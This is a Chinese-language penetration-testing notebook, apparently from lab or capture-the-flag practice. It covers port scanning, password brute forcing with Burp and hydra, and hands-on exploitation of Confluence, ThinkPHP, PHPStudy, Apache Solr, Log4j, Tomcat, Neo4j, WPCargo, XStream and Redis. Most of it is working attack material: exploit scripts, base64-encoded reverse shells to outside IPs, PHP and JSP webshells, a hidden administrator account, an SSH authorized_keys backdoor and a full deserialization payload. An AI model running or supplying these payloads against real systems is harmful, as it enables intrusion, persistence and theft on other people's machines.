 

# 外网打点扫描

## nmap使用

### 脚本

#### 脚本路径

```shell
cd /usr/share/nmap/scripts
```


[网络安全与Kali Linux：Nmap脚本引擎使用实战教程](https://baijiahao.baidu.com/s?id=1677012007906758233&wfr=spider&for=pc)

#### 指令设置

- **-sC** 是指的是采用默认配置扫描，与 **--script=default**参数等价；
- **--script=脚本名称**，脚本一般都在**Nmap的安装目录下的scripts目录中**

-sC ——> : 等价于–script=default，使用默认类别的脚本进行扫描 可更换其他类别 
--script-args=key1=value1,key2=value2... ——> 该参数是用来传递脚本里面的参数的，key1是参数名，该参数对应value1这个值，那么有更多的参数，使用逗号连接，后面例子中会给大家讲解；
–script-args-file=filename ——> 使用文件来为脚本提供参数；
--script-trace 如果设置该参数，则显示所有的脚本收发请求过程；
--script-updatedb ——> 在Nmap的scripts目录里有一个script.db文件，该文件中保存了当前Nmap可用的脚本，类似于一个小型数据库，如果我们开启nmap并且调用了此参数，则nmap会自行扫描scripts目录中的扩展脚本，进行数据库更新;
--script-help=脚本名称 ——> 调用该参数后，Nmap会输出该脚本名称对应的脚本使用参数，以及详细介绍信息. 

### 扫描

#### 端口扫描

```shell
开放端口 nmap 127.0.0.1
指定端口 nmap 192.168.31.180 -p 80,3389,22,21
范围扫描 nmap 192.168.31.180 -p 1-65535
判断端口是否开放（TCP全连接扫描，三次握手）
nmap 192.168.31.180 -p 80 -sT
判断端口是否开放（SYN半链接扫描，两次握手）
nmap 192.168.31.180 -p 80 -sS
隐秘扫描
Fin扫描 nmap 127.0.0.1 -p 80 -sF    
Null扫描（所有flags都为0的TCP包） nmap 127.0.0.1 -p 80 -sN    
Xmas扫描（flags的FIN、URG、PUSH都为1的包） nmap 127.0.0.1 -p 80 -sX    

扫描存活主机 nmap -sP 192.168.31.0/24
识别服务版本 nmap 192.168.31.180 -p 80 -sV
操作系统版本 nmap 192.168.31.180 -p 80 -O

字典位置，需要手动添加字典
nmap/nselib/data
```

## fscan使用

```shell
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/16  (B段扫描)


fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
fscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
fscan.exe -h 192.168.1.1/24 -nobr -nopoc (不进行爆破,不扫Web poc,以减少流量)
fscan.exe -h 192.168.1.1/24 -pa 3389 (在原基础上,加入3389->rdp扫描)
fscan.exe -h 192.168.1.1/24 -socks5 127.0.0.1:1080 (只支持简单tcp功能的代理,部分功能的库不支持设置代理)
fscan.exe -h 192.168.1.1/24 -m ms17010 -sc add (内置添加用户等功能,只适用于备选工具,更推荐其他ms17010的专项利用工具)
fscan.exe -h 192.168.1.1/24 -m smb2 -user admin -hash xxxxx (pth hash碰撞,xxxx:ntlmhash,如32ed87bdb5fdc5e9cba88547376818d4)
fscan.exe -h 192.168.1.1/24 -m wmiexec -user admin -pwd password -c xxxxx (wmiexec无回显命令执行)
```

执行命令爆破主机3389端口：top500是密码本

```
fscan.exe -h 192.168.10.101 -m smb -pwdf top500.txt
```


## disreasch

```shell
dirsearch -u http://192.168.1.100 -e *
db文件夹里面的dicc.txt就是默认的字典位置
dirsearch -u http://192.168.1.100 -w 自定义目录地址
```

## dirb

字典库在/usr/share/dirb/wordlists/里面，或者在/usr/share/wordlists里面可以选择

```shell
 dirb http://192.168.1.100/dede/uploads/ /usr/share/dirb/wordlists/big.txt
```

## 其他工具

7kbscan-WebPathBrute-可视化，方便添加字典

Swebscan-可视化

## 扫描漏洞-WeblogicScan

扫描web漏洞


## 扫描漏洞 -vulmap-0.8


## 扫描漏洞-Multiple.Database.Utilization.Tools-2.1.1-jar-with-dependencies


## 扫描漏洞-cmsmap


## ApacheTomcatScanner


## goby

综合扫描利用工具

## xrkrce-端口rce扫描

执行命令进行扫描：

```
xrkrce.exe -h IP
```


获取RCE端口，执行命令进行利用：

```
xrkrce.exe -h IP -t rce -p 端口号 -c "whoami"
```


`Win10攻击机`中进入`C:\Users\Administrator\Desktop\tool\xrk`目录，在该目录下启动命令行，对`172.16.100.50`主机进行扫描：

```
xrkrce.exe -h 172.16.100.50 -t scan
```

扫描时间大约5分钟，若长时间无回显可按回车检查扫描是否结束，也可通过`proxifier`软件的`Connections`窗口判断扫描的运行情况，当窗口的端口扫描行为停止时表示扫描即将结束。



发现存在漏洞，执行命令进行利用（若无显示请再试一次）：

```
xrkrce.exe -h 172.16.100.50 -t rce -p XXXXX -c "whoami"

##XXXXX表示扫描出的端口
```


成功获得system权限，添加隐藏账户：

```
xrkrce.exe -h 172.16.100.50 -t rce -p XXXXX -c "net user hacker$ admin /add" 

xrkrce.exe -h 172.16.100.50 -t rce -p XXXXX -c "net localgroup administrators hacker$ /add"  

##XXXXX表示扫描出的端口
```


账户创建后进行远程，远程主机信息如下：

```
远程地址：172.16.100.50

登录信息：hacker$/admin
```


# 弱密码爆破

## burp的用户密码爆破

浏览器中输入用户名`admin`，密码`123`，切换代理为Burpsuite后点击`登录`：


Burpsuite工具中找到登录动作的包，可通过点击Forword进行过滤：


将包发送给`Intruder`：



点击`Intruder`>>`Positions`，点击`Clear`清空所有爆破点，双击密码：


点击`Add`设置为爆破点：


点击`Payloads`，点击`Load ...`添加字典，字典的绝对路径为`C:\Users\Administrator\Desktop\工具\字典\lotDict\password.txt`：


点击`Start attack`进行爆破：


按照`length`进行排序，发现密码`123456`的长度比较特殊：


## web.py-代替burp的脚本

原理同burp一样，只不过改为了脚本

## TomcatWeakScan-扫描tomcat的密码


## 超级弱口令爆破工具

支持的爆破种类多

## RDP端口密码爆破

执行命令：

```
proxychains4 hydra -L '/root/Desktop/Tools/fuzzDicts/userNameDict/top500.txt' -P '/root/Desktop/Tools/fuzzDicts/passwordDict/top500.txt' rdp://192.168.2.150 -t 1 -V
```


获取账户密码：`test/123456`：

## [SharpXDecrypt](https://github.com/JDArmy/SharpXDecrypt/#sharpxdecrypt)-恢复Xshell密码


# 外网漏洞利用

## 漏洞库-exphub-master

在里面找到相应的漏洞，然后参照md使用

## 漏洞库-vul-wiki

进入docs-base和docs-0sec下的docs目录，执行以下命令启动对应服务：

```
docsify serve docs-base
docsify serve docs-0sec
```

## confluence-CVE-2021-26084

confluence版本是v7.11.3

工具压缩包位置：

`C:\Users\Administrator\Desktop\工具\tools\CVE-2021-26084_Confluence-main.zip`

解压后，进入工具目录执行如下命令：

```
python3 cve-2021-26084_confluence_rce.py -u http://192.168.50.40:8090 -c "whoami"
```


具有写权限

```
python3 cve-2021-26084_confluence_rce.py -u http://192.168.50.40:8090 -c "ls -la"
```


下载shell.sh到tmp目录下(先上传，再执行)

```python
python3 cve-2021-26084_confluence_rce.py -u http://192.168.50.40:8090/ -c "wget http://56.47.33.65/xxx/shell.sh -O /tmp/shell.sh"
```

```python
双引号内的IP为web的IP，具体路径以上传的路径为准
python3 cve-2021-26084_confluence_rce.py -u http://192.168.50.40:8090/ -c "wget http://56.47.33.65/xxx/shell.sh -O /tmp/shell.sh"
```


添加执行权限

```
python3 cve-2021-26084_confluence_rce.py -u http://192.168.50.40:8090/ -c "chmod 777 /tmp/shell.sh"
```


kali开启监听

在mysql主机反弹的shell中执行命令：

```
nc -lvp 9999
```


执行shell.sh，成功反弹shell

```sh
python3 cve-2021-26084_confluence_rce.py -u http://192.168.50.40:8090/ -c "bash /tmp/shell.sh"
```


成功反弹shell


## thinkphp-反序列化漏洞

直接可以使用的thinkphp工具

Java反序列化漏洞利用工具V1.7

perun、反序列化工具

## thinkphp-缓存文件漏洞

thinkphp3.2.3存在经典漏洞：缓存函数不当使用导致临时文件变木马。临时文件的默认存储路径，前提要登录后台

查看`thinkphp`版本：

```
http://192.168.11.211/thinkphp/ThinkPHP.php
```


利用缓存漏洞可以缓存包含webshell的临时文件；点击`站点配置`>>`站点设置`，在此页面可以利用缓存文件上传webshell


回到burpsuite的`Proxy`，点击`Forword`对数据包进行放行，找到POST请求数据包

在`SchoolCMS`下方插入一句话木马后发送到`Repeater`：

```
@eval($_POST['pass']);//
```


点击`Repeater`>>`Send`，`code`为0表示写入成功：


访问临时文件目录：

```
http://192.168.11.211/Application/Runtime/Temp/
```


可以查看到php文件

## PHPStudy

访问phpinfo

```shell
http://10.10.10.123/phpinfo.php
加密system('whoami');
c3lzdGVtKCd3aG9hbWknKTs=
添加：
Accept-charset: c3lzdGVtKCd3aG9hbWknKTs=
Accept-Encoding: gzip,deflate
##注意删除gzip,deflate之间的空格，否则不生效；
```


```shell
system('chdir');
加密：
c3lzdGVtKCdjaGRpcicpOw==
system('dir ..');
加密：
c3lzdGVtKCdkaXIgLi4nKTs=
在获得的路径中上传webshell
fputs(fopen('C:\phpStudy\PHPTutorial\WWW\shell.php','w'),'<?php @eval($_POST[pass]); ?>');
加密：
ZnB1dHMoZm9wZW4oJ0M6XHBocFN0dWR5XFBIUFR1dG9yaWFsXFdXV1xzaGVsbC5waHAnLCd3JyksJzw/cGhwIEBldmFsKCRfUE9TVFtwYXNzXSk7ID8+Jyk7
```

## Apache Solr验证错误漏洞

Apache Solr 5.0.0版本至8.3.1版本中存在输入验证错误漏洞，攻击者可借助Velocity模板利用该漏洞在系统上执行任意代码。

点击`Core Admin`，获取Core路径：


访问 `http://192.168.10.110:8983/solr/new_core/config` 查看配置信息，在页面中搜索关键字`params.resource.loader.enabled`，查看该值是否为true，默认为false：


修改`Content-Type`的值为`application/json`：


加入请求体后点击`Send`：

```
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```


返回200后关闭抓包：


浏览器中再次访问`http:192.168.10.110:8983/solr/new_core/config`，发现`params.resource.loader.enabled`的值已经变为了true:


通过Velocity模板即可执行任意命令，浏览器中访问如下内容：

```
http://192.168.10.110:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27id%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```


将编码后的bash命令拼接成JAVA可识别的格式：

```
bash -c {echo,YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC85OS45OS45OS4xMDAvMTIzNCAwPiYxIg==}|{base64,-d}|{bash,-i}
```

将-c前后的空格替换为+号：

```
bash+-c+{echo,YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC85OS45OS45OS4xMDAvMTIzNCAwPiYxIg==}|{base64,-d}|{bash,-i}
```

将执行内容（第二个+号后面的内容）进行url编码：


```
%7b%65%63%68%6f%2c%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%35%4f%53%34%35%4f%53%34%35%4f%53%34%78%4d%44%41%76%4d%54%49%7a%4e%43%41%77%50%69%59%78%49%67%3d%3d%7d%7c%7b%62%61%73%65%36%34%2c%2d%64%7d%7c%7b%62%61%73%68%2c%2d%69%7d
```

拼接后如下：

```
bash+-c+%7b%65%63%68%6f%2c%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%35%4f%53%34%35%4f%53%34%35%4f%53%34%78%4d%44%41%76%4d%54%49%7a%4e%43%41%77%50%69%59%78%49%67%3d%3d%7d%7c%7b%62%61%73%65%36%34%2c%2d%64%7d%7c%7b%62%61%73%68%2c%2d%69%7d
```

在浏览器中访问：

```
http://192.168.10.110:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27id%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27bash+-c+%7b%65%63%68%6f%2c%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%35%4f%53%34%35%4f%53%34%35%4f%53%34%78%4d%44%41%76%4d%54%49%7a%4e%43%41%77%50%69%59%78%49%67%3d%3d%7d%7c%7b%62%61%73%65%36%34%2c%2d%64%7d%7c%7b%62%61%73%68%2c%2d%69%7d%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```


最后nc连接，即可反弹shell

## Apache Solr log4j漏洞

看到有log4j的组件


触发点是action参数

```cobol
/solr/admin/collections?action=
```

验证：

```cobol
http://39.xx.xx.xx:8983/solr/admin/collections?action=${jndi:ldap://iszpua.dnslog.cn}
```


证明存在log4j漏洞，利用[JNDIExploit](https://github.com/WhiteHSBG/JNDIExploit)工具打

```css
java -jar JNDIExploit-1.3-SNAPSHOT.jar -i vps -p 8888
```


监听端口

nc -lvnp 9999

访问网站

http://39.xx.xx.xx:8983/solr/admin/collections?action=${jndi:ldap://175.xx.xx.xx:1389/Basic/ReverseShell/175.xx.xx.xx/9999}


## Apache Tomcat老版本文件上传漏洞


登陆成功后发现上传点：


如果一个Web应用程序的目录和文件非常多，那么将这个Web应用程序部署到另一台机器上，就不是很方便了，这时可以将Web应用程序打包成Web归档（WAR）文件，这个过程和把Java类文件打包成JAR文件的过程类似。利用WAR文件，可以把Servlet类文件和相关的资源集中在一起进行发布。在这个过程中，Web应用程序就不是按照目录层次结构来进行部署了，而是把WAR文件作为部署单元来使用。

进入`C:\Users\Administrator\Desktop\工具\shell\Behinder_v3.0_Beta_11.t00ls\server`目录，将`shell.jsp`文件进行压缩：


重命名`shell.zip`文件为`shell.war`


该`shell.war`进行上传：

上传成功：


冰蝎工具设置代理（有内网穿透的话，设置到frps端的ip和端口）

URL：http://192.168.2.50:8080/shell/shell.jsp

密码：rebeyond


## Apache Tomcat远程代码执行-CVE-2019-0232

访问不存在页面`http://192.168.11.200:8080/campuscard/main-2.html`，获取Tomcat版本号

抓取首页`http://192.168.11.200:8080/campuscard/main.html`的GET请求包并发送到`Repeater`：


修改数据包的请求地址并发送：

```
/index.html
```


获取cgi脚本名称及路径，切换浏览器代理后访问：

```
http://192.168.11.200:8080/cgi-bin/hello.bat
```


测试是否存在漏洞：

```
http://192.168.11.200:8080/cgi-bin/hello.bat?&C%3A%5CWindows%5CSystem32%5Cnet.exe+user
```


查看权限：

```
http://192.168.11.200:8080/cgi-bin/hello.bat?&C%3A%5CWindows%5CSystem32%5Cwhoami
```


执行命令获取物理路径：

```
http://192.168.11.200:8080/cgi-bin/hello.bat?dir
```


利用curl命令将webshell进行下载：

```
http://192.168.11.200:8080/cgi-bin/hello.bat?&C%3A%5CWindows%5CSystem32%5Ccurl+-o+C:%5CTomcat%5Capache-tomcat-8.5.39%5Cwebapps%5CROOT%5Cshell.jsp+10.10.10.123/shell.jsp

##-o：保存下载的文件到指定的文件中
```


访问webshell验证是否存在：

```
192.168.11.200:8080/shell.jsp
```


## Apache Tomcat文件包含- CNVD-2020-10487(CVE-2020-1938)

看了一下是Tomcat 9.0.30，有CVE-2020-1983 Tomcat文件包含漏洞


读取/web-inf/web.xml


url-pattern 结果存为字典


FFuf


关注uploadservlet


上传temp.txt


返回文件地址


```bash
 ./upload/7dbbdee357b4472f5aad6b8ce83980dd/20221206093440839.txt
```

替换 ./upload to /upload，成功读取到上传的文件

```bash
 python3 ajpShooter.py http://47.92.146.66:8080 8009 /upload/7dbbdee357b4472f5aad6b8ce83980dd/20221206093440839.txt read
```


 准备好 shell.txt,下面两种都可以

```javascript
<% java.io.InputStream in = Runtime.getRuntime().exec(“bash -c  {echo,ZWNobyAic3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQUJBQUFCZ1FDL3NKaDY4Uk5hWktLakNQaE40WUxpSnJ4eDR3N3JtbDBGcFRmMTNYNHVKZlpFZm4yU25scE9rdXQ0OE1LdURHOEtDcXczRW0zNU9odXdUa2p3ZEkvRGhGN3ZSeTB0T2xtWDE5NmJHcXpndE5pM1YzUHExc3NCMzV5Ui85SHJ6ZjVEdHdqS2NKdkphV0RuZzU2UWhHZjlnR21vdUZVQWV2QjdsUWl3a01FNWNxTzVsQTRwUm5KVEh2RU1OQUkxQkc3MTBEeWNKT28rNGh1TGNNVjZhdUs3UXdKTWdnN0oyU2U5TEpGZWk2R2g0amJUSGRhdmNBVjV6VVJZeFI4QVNXSmNqY29tM2dMUEE1UWNxSzNzSERRVmswUHllaTR3cEJwWWlFUGlHcHlQR2Y1T3ErUU0xQmJyR0gvTlRBYnZWa3dDZnBkRURWdVBNNWhHOFY4c09HTjIxczlWazFjMVBXaEh2WDZ1ejhRaDRNdUdnQlRYSHlZb3duTjg3OTExVDVGR0VjVzlWeUh1cm9FSVJtdE9sY3dBYmRMc0k0NVhOS1o0aWoxdERLNTRTMmpXWXhJTjhSL1ZuUnV2RVVoTVpGOUlabDM3UW5EQnBFR25LTXFjTVE4cHVUZUJBMngvSURHMFR6MWxjVGk5WHp5WjVheTd4dTJwZStidXhWT1BSQ2M9IiA+PiAvcm9vdC8uc3NoL2F1dGhvcml6ZWRfa2V5cwoKY2htb2QgNjAwIC9yb290Ly5zc2gvYXV0aG9yaXplZF9rZXlzCg==}|{base64,-d}|{bash,-i}”).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print(“<pre>“);  while((a=in.read(b))!=-1){ out.println(new String(b)); }  out.print(“</pre>“);%>
```


```javascript
<%
    java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgveHh4IDA+JjE=}|{base64,-d}|{bash,-i}").getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
%>
```

```shell
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/sJh68RNaZKKjCPhN4YLiJrxx4w7rml0FpTf13X4uJfZEfn2SnlpOkut48MKuDG8KCqw3Em35OhuwTkjwdI/DhF7vRy0tOlmX196bGqzgtNi3V3Pq1ssB35yR/9Hrzf5DtwjKcJvJaWDng56QhGf9gGmouFUAevB7lQiwkME5cqO5lA4pRnJTHvEMNAI1BG710DycJOo+4huLcMV6auK7QwJMgg7J2Se9LJFei6Gh4jbTHdavcAV5zURYxR8ASWJcjcom3gLPA5QcqK3sHDQVk0Pyei4wpBpYiEPiGpyPGf5Oq+QM1BbrGH/NTAbvVkwCfpdEDVuPM5hG8V8sOGN21s9Vk1c1PWhHvX6uz8Qh4MuGgBTXHyYownN87911T5FGEcW9VyHuroEIRmtOlcwAbdLsI45XNKZ4ij1tDK54S2jWYxIN8R/VnRuvEUhMZF9IZl37QnDBpEGnKMqcMQ8puTeBA2x/IDG0Tz1lcTi9XzyZ5ay7xu2pe+buxVOPRCc=" >> /root/.ssh/authorized_keys

chmod 600 /root/.ssh/authorized_keys
```

上传shell.txt


执行上传的代码


SSH – flag01


## SQL注入-连接数据库

先查看路径，然后找到网页的根目录，上传payload

```shell
mysql> SET GLOBAL general_log='on';
mysql> SET GLOBAL general_log_file='C:\\phpstudy_pro\\WWW\\1.php';
mysql> SELECT '<?php @eval($_POST[1]);?>';
```

## SQL注入-sqlmap

有的网页后台要通过抓包看是否为sql服务器


然后用sqlmap跑就可以

爆破数据库

一般是得到代理 `proxychains4`，连接到服务器， 然后使用sqlmap爆破

1.txt如下

```shell
POST /index.php HTTP/1.1
Host: 172.22.6.38
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://172.22.6.38
Connection: close
Referer: http://172.22.6.38/
Upgrade-Insecure-Requests: 1

username=admin&password=1111
```

1.txt是用burp拦截下来的post

```shell
proxychains4 sqlmap -r 1.txt --current-db
proxychains4 sqlmap -r 1.txt -D oa_db --tables
proxychains4 sqlmap -r 1.txt -D oa_db -T oa_f1Agggg --columns
proxychains4 sqlmap -r 1.txt -D oa_db -T oa_f1Agggg -C flag02 --d
```

也可以尝试时间盲注

```shell
proxychains4 sqlmap -u 172.22.6.38 --data="password=123&username=admin"
```

## Neo4j -[CVE-2021-34371](https://github.com/zwjjustdoit/CVE-2021-34371.jar#cve-2021-34371jar)

Neo4j Shell Server 反序列化漏洞

用Reverse Shell Generator这个工具生成一个payload

```shell
bash -i >& /dev/tcp/182.92.161.222/5555 0>&1
然后base64加密
YmFzaCAtaSA+JiAvZGV2L3RjcC8xODIuOTIuMTYxLjIyMi81NTU1IDA+JjE=
```

```shell
java -jar rhino_gadget.jar rmi://39.99.151.101:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xODIuOTIuMTYxLjIyMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}"
```

## WPCargo < 6.9.0 - Unauthenticated RCE-[CVE-2021-25003](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-25003)

```
proxychains4 wpscan --url http://172.22.2.18/ --api-token 3uTrZYMQLL4Srozqxxxxxxxxxxx8HQMC23sgYzGSE7uo
```

先扫描，因为太长显示不出来做了删减

exp.py

更改下目标url，挂上代理使用python运行

属于是cmdlinux的解码

```python
import sys
import binascii
import requests

# This is a magic string that when treated as pixels and compressed using the png
# algorithm, will cause <?=$_GET[1]($_POST[2]);?> to be written to the png file
payload = '2f49cf97546f2c24152b216712546f112e29152b1967226b6f5f50'

def encode_character_code(c: int):
    return '{:08b}'.format(c).replace('0', 'x')

text = ''.join([encode_character_code(c) for c in binascii.unhexlify(payload)])[1:]

destination_url = 'http://172.22.2.18:80/'
# http://172.22.2.18:80/
cmd = 'ls'

# With 1/11 scale, '1's will be encoded as single white pixels, 'x's as single black pixels.
requests.get(
    f"{destination_url}wp-content/plugins/wpcargo/includes/barcode.php?text={text}&sizefactor=.090909090909&size=1&filepath=/var/www/html/webshell.php"
)

# We have uploaded a webshell - now let's use it to execute a command.
print(requests.post(
    f"{destination_url}webshell.php?1=system", data={"2": cmd}
).content.decode('ascii', 'ignore'))
```

## XStream1.4.16-CVE-2021-29505

先用ysoerial设置好监听，然后本机上用nc监听好payload端口

然后用burp抓包，将带有登录信息的包返回，改为下面post，然后得到webshell

```shell
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 11018  CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45My40Ny4xNzkvOTAwOCAwPiYx}|{base64,-d}|{bash,-i}"
```

```java
POST /just_sumbit_it HTTP/1.1
Host: 39.99.145.244:8080
Content-Length: 3117
Accept: application/xml, text/xml, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://39.99.145.244:8080
Referer: http://39.99.145.244:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,vi;q=0.7
Content-Type: application/xml
Connection: close


<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>47.93.47.179</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>47.93.47.179</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

## Redis未授权-redis-rogue-server

fscan扫描出存在redis未授权访问

提示权限不够，则直接考虑主从模式获取[rce](https://so.csdn.net/so/search?q=rce&spm=1001.2101.3001.7020)  
这里使用redis-rogue-server获取rce

```shell
git clone https://github.com/n0b0dyCN/redis-rogue-server.git
python3 redis-rogue-server.py --rhost 47.92.212.201 --lhost 38.47.100.xxxvpsx # lhost是你vps的地址
```


## wordpress站点-exp.py

exp.py

```python
https://wpscan.com/vulnerability/5c21ad35-b2fb-4a51-858f-8ffff685de4a
import sys
import binascii
import requests
# This is a magic string that when treated as pixels and compressed using the png
# algorithm, will cause <?=$_GET[1]($_POST[2]);?> to be written to the png file
payload = '2f49cf97546f2c24152b216712546f112e29152b1967226b6f5f50'

def encode_character_code(c: int):
    return '{:08b}'.format(c).replace('0', 'x')
text = ''.join([encode_character_code(c) for c in binascii.unhexlify(payload)])[1:]
destination_url = 'http://172.22.2.18/'
cmd = 'ls'
# With 1/11 scale, '1's will be encoded as single white pixels, 'x's as single black pixels.
